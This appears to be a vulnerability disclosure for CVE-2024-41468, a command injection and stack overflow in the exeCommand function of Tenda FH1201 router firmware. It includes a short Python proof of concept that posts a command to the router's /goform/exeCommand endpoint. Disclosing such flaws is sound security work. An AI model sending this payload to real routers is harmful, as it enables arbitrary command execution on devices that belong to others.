

# exeCommand

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41468

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the exeCommand function.The cmdinput parameter is copied to stack space v7 without any filtering, and then executed, so an attacker can exploit this vulnerability to execute arbitrary commands



### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/exeCommand"


data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```


